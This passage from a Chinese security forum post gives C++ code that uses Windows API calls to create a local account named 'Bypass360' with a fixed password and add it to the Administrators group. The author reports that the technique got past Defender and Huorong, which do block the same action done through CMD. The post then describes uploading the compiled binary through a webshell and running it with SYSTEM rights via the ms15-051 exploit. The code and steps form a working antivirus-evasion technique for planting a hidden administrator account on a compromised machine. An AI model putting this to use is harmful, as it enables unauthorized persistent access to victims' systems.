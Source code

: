 ```c++
    if (NetUserAdd(NULL, 1, (LPBYTE)&ui, &dwError) == NERR_Success)
    {
        std::cout << "[+]        Add Success!!!  \n";
        std::cout << "[+]        UserName:Bypass360  PassWord:Success@qq.com\n";
    }
    else
    {
        //添加失败    
        std::cout << "[+]        Add User Error!\n";
    }

    // 添加用户到administrators组
    LOCALGROUP_MEMBERS_INFO_3 account;
    account.lgrmi3_domainandname = ui.usri1_name;
    if (NetLocalGroupAddMembers(NULL, L"Administrators", 3, (LPBYTE)&account, 1) == NERR_Success)
    {
        //添加成功    
        std::cout << "[+]        Add to Administrators Success\n";
    }
    else
    {
        //添加失败    
        std::cout << "[+]        Add to Administrators Error!\n";
    }
    return 0;
}
```

可通过vs编译成exe文件

[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-f36409f00c0158794e0892c968ae4e6b3353a596.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-f36409f00c0158794e0892c968ae4e6b3353a596.png)

简单实验：在开启Defender和火绒的情况下没有拦截

可以看到`system`权限如果通过CMD添加账号会被火绒拦截

[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-1b912463fe27229418ce9dec90bf94ea203d4766.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-1b912463fe27229418ce9dec90bf94ea203d4766.png)

如果使用api添加账号并赋予超级管理员权限（可以看到结果火绒和windows防火墙没有进行拦截 成功添加超级管理员账号）

[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-53663577c9e4044f5512ed7e0c388635461a1ef1.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-53663577c9e4044f5512ed7e0c388635461a1ef1.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-3381c130569a8c1bf6671eeb00c86134bd22415e.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-3381c130569a8c1bf6671eeb00c86134bd22415e.png)

通过shell把我们的exe文件上传 并通过`ms15-051`的`system`权限来运行

[![](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-4cc821deab57a1ad1e8589d75edcb00cd7aa0511.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-4cc821deab57a1ad1e8589d75edcb00cd7aa0511.png)
